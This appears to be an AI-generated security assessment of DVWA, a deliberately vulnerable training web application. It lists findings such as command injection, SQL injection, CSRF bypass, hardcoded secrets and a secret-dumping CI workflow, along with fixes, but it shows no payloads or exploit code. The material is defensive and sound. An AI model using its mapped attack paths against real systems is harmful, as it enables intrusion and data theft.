# Security Assessment Report - .assessment-work

_Analysis of security architecture and threats_

_Generated by AppSec Analyzer v0.1.0a0 (analysis v5)_


---

> | | |
> |---|---|
> | **Project** | DVWA |
> | **Repository** | `https://github.com/digininja/DVWA` |
> | **Homepage** | `https://github.com/digininja/DVWA` |

---

## Changelog

_Append-only history of assessment runs. Most recent first._
| Version | Date | Scan | Model | Δ Threats | Note |
|--------|--------------------|---------------|--------|----------------|---------------|
| v1 | 2026-11-03 19:47 CET | full · thorough | opus | 81 total | first full scan |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Findings by Root Cause](#critical-findings-by-root-cause)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
   - [Identified Actors](#identified-actors)
   - [Trust Boundaries](#trust-boundaries)
   - [Platform Security Settings](#platform-security-settings)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 OS command injection in health connectivity check and ping feature](#31-os-command-injection-in-health-connectivity-check-and-ping-feature)
   - [3.2 SQL injection in user detail update endpoint](#32-sql-injection-in-user-detail-update-endpoint)
   - [3.3 Hardcoded symmetric encryption keys in source](#33-hardcoded-symmetric-encryption-keys-in-source)
   - [3.4 SQL injection in brute-force login query](#34-sql-injection-in-brute-force-login-query)
   - [3.5 Second-order SQL injection in High](#35-second-order-sql-injection-in-high)
   - [3.6 SQL injection in Low](#36-sql-injection-in-low)
   - [3.7 SQL injection in unquoted numeric context despite escaping](#37-sql-injection-in-unquoted-numeric-context-despite-escaping)
   - [3.8 Unauthenticated database reset in setup page](#38-unauthenticated-database-reset-in-setup-page)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (0)](#51-unauthenticated-entry-points-0)
   - [5.2 Authenticated Entry Points (0)](#52-authenticated-entry-points-0)
6. [Security Architecture](#6-security-architecture)
   - [6.1 Security Control Overview](#61-security-control-overview)
   - [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls)
   - [6.3 Session and Token Controls](#63-session-and-token-controls)
   - [6.4 Authorization Controls](#64-authorization-controls)
   - [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls)
   - [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls)
   - [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls)
   - [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls)
   - [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection)
   - [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls)
   - [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls)
   - [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls)
   - [6.13 Defense-in-Depth Summary](#613-defense-in-depth-summary)
7. [Weakness Register](#7-weakness-register)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
   - [Not Covered by This Method](#not-covered-by-this-method)
   - [Excluded from This Assessment](#excluded-from-this-assessment)
- [Appendix: Verification Items](#appendix-verification-items)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Attack Vector Taxonomy](#appendix-a-vektor-taxonomy)

---

## Management Summary

### Verdict

🔴 **Critical security concerns** - This is a deliberately vulnerable web application training target, and attackers can take over the web server and read or rewrite its whole database. It should run only in an isolated lab and never hold real data or be reachable from the internet.

**Risk distribution:** 🔴 Critical: 2 · 🟠 High: 24 · 🟡 Medium: 31 · 🟢 Low: n/a · **Total: 57**<br/>**Findings register:** 81 · 🔴 Critical: 2 · 🟠 High: 34 · 🟡 Medium: 45 - the distribution above counts insecure-practice findings under their weakness; see [§8 Findings Register](#8-findings-register)<br/>**Assessment evidence:** 45 of 56 finding(s) confirmed in code<br/>**Weakness classes:** 18 (14 implementation, 4 design) - see [§7 Weakness Register](#7-weakness-register)

<br/>

**Security concerns behind this assessment:**

<blockquote style="border-left: 3px solid #dc2626; padding: 16px 20px; margin: 0;">

- **Server takeover through shell commands** — Operating-system command injection in the connectivity check lets an unauthenticated caller run arbitrary commands as the web server user. *(🔴 [F-004](#f-004) → [W-001](#w-001))*
- **Database read and rewritten by signed-in users** — SQL injection across several pages lets any signed-in user read other tables, bypass the password check, or overwrite the administrator password. *(🔴 [F-005](#f-005), 🟠 [F-017](#f-017), 🟠 [F-018](#f-018), 🟠 [F-019](#f-019), 🟠 [F-020](#f-020) → [W-002](#w-002))*
- **Database contents leaked through blind queries** — Blind SQL injection on cookie and form values lets signed-in users infer stored data from yes-or-no page responses. *(🟠 [F-021](#f-021), 🟠 [F-022](#f-022), 🟠 [F-023](#f-023) → [W-002](#w-002))*
- **Anyone can wipe the database** — The setup page needs no login, so any visitor can drop and recreate the database, resetting every account and record. *(🟠 [F-024](#f-024))*
- **Ordinary accounts become administrators** — Missing authorization and mass assignment on the user interface let unauthenticated callers read or change all users, including their access level. *(🟠 [F-039](#f-039), 🟡 [F-082](#f-082) → [W-004](#w-004), [W-012](#w-012))* — ✓ cited finding in a code-verified chain

</blockquote>

<br/>

The system is acceptable only as an isolated training target. Putting it near real data or a shared network would expose everything it holds.

**About this assessment:** An AI-assisted threat model derived from the implementation of DVWA. It reconstructs the implemented architecture (3 components and 1 external service, see [§2](#2-architecture-diagrams)) and identifies threats and control gaps in it.


**Method and limits:** Automated static analysis of code and configuration, not a pentest or a team threat-modeling session; Low and Informational findings not reported (threshold: medium) - see [§11 Out of Scope](#11-out-of-scope).

### Remediation Priorities

The root causes behind the findings, ranked by severity, each with the measures to do first. The lasting fix under a root cause removes it and every finding it causes. Every mitigation that fixes a Critical finding is listed. Details in the [§7 Weakness Register](#7-weakness-register) and the [§10 Mitigation Register](#10-mitigation-register).

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="30%" style="width:30%"><col width="28%" style="width:28%"><col width="33%" style="width:33%"><col width="9%" style="width:9%"></colgroup>
<thead><tr><th>Root cause → lasting fix</th><th>Do first</th><th>Resolves</th><th>Effort</th></tr></thead>
<tbody>
<tr><td rowspan="1" style="overflow-wrap:break-word">🔴 <a href="#w-001">W-001</a> - Application data builds operating-system commands<br/><em>→ call a fixed executable with an argument list and no shell, and accept only allowlisted argument values from callers</em></td><td style="overflow-wrap:break-word">● <a href="#m-013">M-013</a> - Validate target host and use escapeshellarg</td><td style="overflow-wrap:break-word">🔴 <a href="#f-004">F-004</a> - OS command injection in health connectivity check and ping feature</td><td style="white-space:nowrap">Low</td></tr>
<tr><td rowspan="9" style="overflow-wrap:break-word">🔴 <a href="#w-002">W-002</a> - Database access relies on concatenated queries<br/><em>→ provide one parameterised repository or query-builder path and prohibit application-value interpolation in database queries</em></td><td style="overflow-wrap:break-word">● <a href="#m-014">M-014</a> - Use prepared statements for user update query</td><td style="overflow-wrap:break-word">🔴 <a href="#f-005">F-005</a> - SQL injection in user detail update endpoint</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">● <a href="#m-023">M-023</a> - Bind log values with prepared statements</td><td style="overflow-wrap:break-word">🟠 <a href="#f-016">F-016</a> - SQL injection</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">● <a href="#m-024">M-024</a> - Use prepared statements for login lookup</td><td style="overflow-wrap:break-word">🟠 <a href="#f-017">F-017</a> - SQL injection in brute-force login query</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">● <a href="#m-025">M-025</a> - Bind session id via prepared statement</td><td style="overflow-wrap:break-word">🟠 <a href="#f-018">F-018</a> - Second-order SQL injection</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">● <a href="#m-026">M-026</a> - Use prepared statements with bound integer id</td><td style="overflow-wrap:break-word">🟠 <a href="#f-019">F-019</a> - SQL injection</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">● <a href="#m-027">M-027</a> - Bind id as integer parameter in prepared query</td><td style="overflow-wrap:break-word">🟠 <a href="#f-020">F-020</a> - SQL injection in unquoted numeric context despite escaping</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">● <a href="#m-028">M-028</a> - Parameterize query and validate cookie id</td><td style="overflow-wrap:break-word">🟠 <a href="#f-021">F-021</a> - Blind SQL injection</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">● <a href="#m-029">M-029</a> - Use parameterized query for blind lookup</td><td style="overflow-wrap:break-word">🟠 <a href="#f-022">F-022</a> - Blind SQL injection</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">● <a href="#m-030">M-030</a> - Bind id as integer in prepared statement</td><td style="overflow-wrap:break-word">🟠 <a href="#f-023">F-023</a> - Blind SQL injection</td><td style="white-space:nowrap">Low</td></tr>
<tr><td rowspan="2" style="overflow-wrap:break-word">🟡 <a href="#w-007">W-007</a> - Secrets are committed to source instead of a managed store<br/><em>→ move every secret to a managed secret store or injected environment configuration, rotate the exposed values, and add secret-scanning to CI</em></td><td style="overflow-wrap:break-word">● <a href="#m-035">M-035</a> - Load keys from a secret store</td><td style="overflow-wrap:break-word">🟠 <a href="#f-029">F-029</a> - Hardcoded symmetric encryption keys in source</td><td style="white-space:nowrap">Medium</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-007">M-007</a> - docker-compose secrets supplied by reference</td><td style="overflow-wrap:break-word">🟠 <a href="#f-027">F-027</a> - Hardcoded MariaDB root and application passwords in compose</td><td style="white-space:nowrap">Low</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word">🟠 <a href="#w-003">W-003</a> - Input handling lacks enforced boundary validation<br/><em>→ enforce server-side schemas and domain-specific allowlists before input reaches parsing, persistence, or command construction</em></td><td style="overflow-wrap:break-word">◕ <a href="#m-034">M-034</a> - Constrain file paths to a safe base directory</td><td style="overflow-wrap:break-word">🟠 <a href="#f-028">F-028</a> - Path traversal in source viewer discloses</td><td style="white-space:nowrap">Low</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word">🟠 <a href="#w-004">W-004</a> - Authorization is implemented route by route<br/><em>→ enforce authorization through a shared server-side policy layer and make ownership and tenant scope mandatory inputs to data access</em></td><td style="overflow-wrap:break-word">◕ <a href="#m-043">M-043</a> - Enforce server-side authorization on every endpoint</td><td style="overflow-wrap:break-word">🟠 <a href="#f-039">F-039</a> - Admin-only user endpoints gated</td><td style="white-space:nowrap">Low</td></tr>
<tr><td rowspan="2" style="overflow-wrap:break-word">🟠 <a href="#w-005">W-005</a> - Cookie-authenticated changes lack request authenticity checks<br/><em>→ enforce framework CSRF protection or validated origin and anti-CSRF tokens on every mutation that accepts ambient browser credentials</em></td><td style="overflow-wrap:break-word">◕ <a href="#m-010">M-010</a> - Require CSRF token and current password</td><td style="overflow-wrap:break-word">🟠 <a href="#f-001">F-001</a> - Missing Anti-CSRF Token on State Changes</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-032">M-032</a> - Replace Referer substring check with anti-CSRF token</td><td style="overflow-wrap:break-word">🟠 <a href="#f-025">F-025</a> - CSRF check bypass</td><td style="white-space:nowrap">Low</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word"><em>No root cause linked</em></td><td style="overflow-wrap:break-word">● <a href="#m-031">M-031</a> - Require authentication on every exposed endpoint</td><td style="overflow-wrap:break-word">🟠 <a href="#f-024">F-024</a> - Unauthenticated database reset in setup page</td><td style="white-space:nowrap">Low</td></tr>
</tbody>
</table>

*19 more P1/P2 mitigations and 47 P3/P4 backlog items in the [§10 Mitigation Register](#10-mitigation-register). ● P1 · ◕ P2 · ◑ P3 · ○ P4*

### Open Questions for the Team

The code cannot answer these questions; the people who own the business and the deployment can. Each question states under it what its answer changes.

- _How critical are Database service credentials and User accounts and password hashes to the business, and what harm would their disclosure, manipulation or unavailability cause?_
  The answer weights the impact rating and fix order of every finding that reaches these assets.
- _Which sensitive business records can the production database account used by DVWA Web Application access?_ ([W-002](#w-002): [F-005](#f-005), [F-017](#f-017), [F-018](#f-018) +5 more)
  Personal or regulated data in reach raises both the breach impact and any notification duty; a narrowly scoped account limits the blast radius.
- _If an attacker runs code in DVWA Web Application, which other services, secrets or credentials can that process reach?_ ([F-004](#f-004), [F-076](#f-076) (unproven))
  Every reachable service or credential extends this from one component to a wider compromise and raises the priority of isolating that process; an isolated process contains it.

### Security Posture & Top Threats

**Figure 1a - Runtime Architecture and Threat Overview**

At runtime, the system has 2 components in 2 layers and exchanges data with 1 external service. Figure 1a shows these data flows and where each of the 4 attack scenarios below begins. The complete boundary catalogue remains in [§1 Trust Boundaries](#trust-boundaries).

<picture><source media="(prefers-color-scheme: dark)" srcset="security-assessment-dvwa-thorough-0.1.0.figure1-dark.svg"></picture>

**Build pipeline**, not drawn in this runtime view: GitHub Actions. ④ A2 · Supply-Chain / Build Attacker → [Figure 1b](#figure-1b).

Role access and finding assignments are listed in [Identified Actors](#identified-actors).

<a id="figure-1b"></a>

**Figure 1b - Supply Chain and Build**

The repository builds in GitHub Actions. Figure 1b shows the inputs, build systems and release artifacts the repository evidences, with 8 findings attached to them. The highlighted path follows 🟡 [F-055](#f-055) — Container images referenced by floating tags without digest pinning as far as the repository evidences it. The control assessment is in [§6.11](#611-operations-runtime-and-supply-chain-controls).

<picture><source media="(prefers-color-scheme: dark)" srcset="security-assessment-dvwa-thorough-0.1.0.figure1b-dark.svg"></picture>

**Figure 2 - Attack Routes and Impact**

Each numbered route names one example finding from the corresponding Top Threats group with its access prerequisite, the register weakness it is linked to, and the group's potential business harm, which depends on deployment and affected assets. W-IDs in parentheses link the example to an existing weakness. The attack step, affected component and technical consequence are listed in the findings register. Red arrows indicate attacks; dashed red arrows involve a victim; grey arrows lead to potential harm.

<picture><source media="(prefers-color-scheme: dark)" srcset="security-assessment-dvwa-thorough-0.1.0.figure2-dark.svg"></picture>

**Threat actors.** The actors below drive the numbered attack paths in the figures above.

- **Anonymous Internet Attacker** — no account or prior foothold; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ③ Broken Authorization & Access Control, ⑤ Sensitive File & Secret Exposure.
- **Supply-Chain / Build Attacker** — compromises a dependency or build pipeline, or contributes malicious code to a public repo; drives ④ Build Pipeline & Dependency Integrity.

**5 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances by severity under their component, each linked to the [§8 Findings Register](#8-findings-register), and on screen an ID shows its title when you point at it; *Risk & Impact* combines severity with business consequence; *Primary Measures* names the most important measures for this threat, most important first, one per root cause. All measures are in the [§10 Mitigation Register](#10-mitigation-register).

| # | Threat Description | Findings (→ Component) | Risk & Impact | Primary Measures |
|---|------------------------------------|------------------------------------------------|------------------------------------|----------------------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access** _(T·I)_<br/>Request data is concatenated into shell commands and SQL statements, letting attackers run commands and read or rewrite database content. | → [C-03](#c-03) DVWA Web Application<br/>🔴&nbsp;<span style="white-space:nowrap"><a href="#f-004" title="OS command injection in health connectivity check and ping feature">F-004</a></span>, <span style="white-space:nowrap"><a href="#f-005" title="SQL injection in user detail update endpoint">F-005</a></span><br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-017" title="SQL injection in brute-force login query">F-017</a></span>, <span style="white-space:nowrap"><a href="#f-018" title="Second-order SQL injection">F-018</a></span>, <span style="white-space:nowrap"><a href="#f-019" title="SQL injection">F-019</a></span>, <span style="white-space:nowrap"><a href="#f-020" title="SQL injection in unquoted numeric context despite escaping">F-020</a></span>, <span style="white-space:nowrap"><a href="#f-021" title="Blind SQL injection">F-021</a></span>, <span style="white-space:nowrap"><a href="#f-022" title="Blind SQL injection">F-022</a></span>, <span style="white-space:nowrap"><a href="#f-014" title="SQL injection">F-014</a></span>, <span style="white-space:nowrap"><a href="#f-015" title="SQL injection">F-015</a></span>, <span style="white-space:nowrap"><a href="#f-016" title="SQL injection">F-016</a></span>, <span style="white-space:nowrap"><a href="#f-023" title="Blind SQL injection">F-023</a></span> | 🔴 Critical<br/>Full Server Compromise · Customer Data Exfiltration | <span style="white-space:nowrap">● [M-014](#m-014)</span> - Use prepared statements for user update query<br/><span style="white-space:nowrap">● [M-013](#m-013)</span> - Validate target host and use escapeshellarg |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed. | → [C-03](#c-03) DVWA Web Application<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-002" title="Broken MD5 hashing used for stored passwords without salt or strength policy">F-002</a></span>, <span style="white-space:nowrap"><a href="#f-029" title="Hardcoded symmetric encryption keys in source">F-029</a></span>, <span style="white-space:nowrap"><a href="#f-030" title="Unsalted MD5 password hashing">F-030</a></span><br/><details><summary>5 Medium</summary>→ [C-03](#c-03) DVWA Web Application<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-043" title="Hardcoded encryption key and static secret allow API token">F-043</a></span>, <span style="white-space:nowrap"><a href="#f-051" title="Hardcoded client secret and user password in API login">F-051</a></span>, <span style="white-space:nowrap"><a href="#f-052" title="Static access token accepted from the URL query string">F-052</a></span>, <span style="white-space:nowrap"><a href="#f-069" title="Repeating-key XOR used as message encryption">F-069</a></span>, <span style="white-space:nowrap"><a href="#f-070" title="Broken hash primitive">F-070</a></span></details> | 🟠 High<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">◕ [M-011](#m-011)</span> - Use modern cryptographic hash and KDF algorithms<br/><span style="white-space:nowrap">● [M-035](#m-035)</span> - Load keys from a secret store |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control** _(E·I)_<br/>Authorization checks are absent or controlled by the client, so callers can read and modify other users and raise privileges. | → [C-03](#c-03) DVWA Web Application<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-039" title="Admin-only user endpoints gated">F-039</a></span>, <span style="white-space:nowrap"><a href="#f-006" title="Password change does not require the current password">F-006</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-082" title="Unauthenticated user API allows mass assignment">F-082</a></span><br/><details><summary>3 Medium</summary>→ [C-03](#c-03) DVWA Web Application<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-079" title="Security controls gated by client-controlled cookie">F-079</a></span>, <span style="white-space:nowrap"><a href="#f-080" title="Profile authorization trusts client user&#95;id cookie">F-080</a></span>, <span style="white-space:nowrap"><a href="#f-081" title="IDOR guarded by static public token">F-081</a></span></details> | 🟠 High<br/>Full Admin Takeover | <span style="white-space:nowrap">◕ [M-043](#m-043)</span> - Enforce server-side authorization on every endpoint<br/><span style="white-space:nowrap">◕ [M-015](#m-015)</span> - Verify the current password before any password change<br/><span style="white-space:nowrap">◕ [M-082](#m-082)</span> - Allowlist client-controlled fields |
| <a id="path-supply-chain"></a>④ | **Build Pipeline & Dependency Integrity** _(T·E)_<br/>Credentials are committed to the repository or dumped into build logs, exposing them to anyone with repository access. | → [C-02](#c-02) CI/CD Pipeline<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-026" title="All repository secrets dumped base64-encoded to workflow">F-026</a></span>, <span style="white-space:nowrap"><a href="#f-027" title="Hardcoded MariaDB root and application passwords in compose">F-027</a></span><br/>→ [C-01](#c-01) MariaDB Database<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-040" title="Hardcoded weak MariaDB root and application credentials">F-040</a></span><br/><details><summary>5 Medium</summary>→ [C-02](#c-02) CI/CD Pipeline<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-055" title="Container images referenced by floating tags without digest pinning">F-055</a></span>, <span style="white-space:nowrap"><a href="#f-056" title="Third-party GitHub Actions pinned to mutable tags instead of commit SHAs">F-056</a></span>, <span style="white-space:nowrap"><a href="#f-073" title="Workflows lack explicit permissions block for GITHUB&#95;TOKEN">F-073</a></span>, <span style="white-space:nowrap"><a href="#f-074" title="Container Runs as Root">F-074</a></span>, <span style="white-space:nowrap"><a href="#f-075" title="Missing Workflow Permissions Block">F-075</a></span></details> | 🟠 High<br/>Customer Data Exfiltration | <span style="white-space:nowrap">◕ [M-033](#m-033)</span> - Remove secret dumping step from vulnerable workflow<br/><span style="white-space:nowrap">◕ [M-007](#m-007)</span> - docker-compose secrets supplied by reference |
| <a id="path-sensitive-data-exposure"></a>⑤ | **Sensitive File & Secret Exposure** _(I)_<br/>confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content. | → [C-03](#c-03) DVWA Web Application<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-028" title="Path traversal in source viewer discloses">F-028</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-003" title="Raw Database Error Disclosure to Client">F-003</a></span>, <span style="white-space:nowrap"><a href="#f-047" title="Open redirect substring allow check bypassable">F-047</a></span><br/><details><summary>3 Medium</summary>→ [C-03](#c-03) DVWA Web Application<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-048" title="Open redirect to arbitrary URL">F-048</a></span>, <span style="white-space:nowrap"><a href="#f-049" title="Open redirect scheme denylist bypassable">F-049</a></span>, <span style="white-space:nowrap"><a href="#f-068" title="Legacy v1 user API discloses password hashes">F-068</a></span></details> | 🟠 High<br/>Customer Data Exfiltration | <span style="white-space:nowrap">◕ [M-034](#m-034)</span> - Constrain file paths to a safe base directory |

**Further threats without Critical or High findings:** Remote Code Execution (unsafe eval) (🟡 1). Their findings are in the [§8 Findings Register](#8-findings-register).

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and primary measures are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 5 fully viable ([AC-T-005](#ac-t-005), [AC-T-002](#ac-t-002), [AC-T-004](#ac-t-004), [AC-T-006](#ac-t-006), [AC-B-006](#ac-b-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§6](#6-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§6](#6-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="18%" style="width:18%"><col width="32%" style="width:32%"><col width="14%" style="width:14%"><col width="36%" style="width:36%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th><th>Open gaps</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><strong>Authentication &amp; Session Management</strong></td><td style="overflow-wrap:break-word"><em>Identity issuance, route-level authorisation, and second-factor handling for this codebase.</em><br/>Anti-CSRF token on login<br/>Login SQL query construction</td><td style="overflow-wrap:break-word">⚠️ Partial</td><td style="overflow-wrap:break-word">5 High and 6 Medium findings remain open:<br/>🟠 <a href="#f-001">F-001</a> — Missing Anti-CSRF Token on State Changes<br/>🟠 <a href="#f-006">F-006</a> — Password change does not require the current password<br/>🟠 <a href="#f-024">F-024</a> — Unauthenticated database reset in setup page<br/>🟠 <a href="#f-025">F-025</a> — CSRF check bypass<br/>🟠 <a href="#f-039">F-039</a> — Admin-only user endpoints gated<br/><details><summary>6 Medium</summary>🟡 <a href="#f-041">F-041</a> — Login lacks attempt throttling or lockout<br/>🟡 <a href="#f-042">F-042</a> — No login attempt limiting on brute-force form<br/>🟡 <a href="#f-050">F-050</a> — CAPTCHA state trusted from client-supplied field<br/>🟡 <a href="#f-075">F-075</a> — Missing Workflow Permissions Block<br/>🟡 <a href="#f-081">F-081</a> — IDOR guarded by static public token<br/>🟡 <a href="#f-082">F-082</a> — Unauthenticated user API allows mass assignment</details></td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a><a id="critical-findings-by-root-cause"></a>
## Critical Findings by Root Cause

2 of 2 Critical findings trace back to 2 root causes; fixing a root cause addresses every finding linked to it.

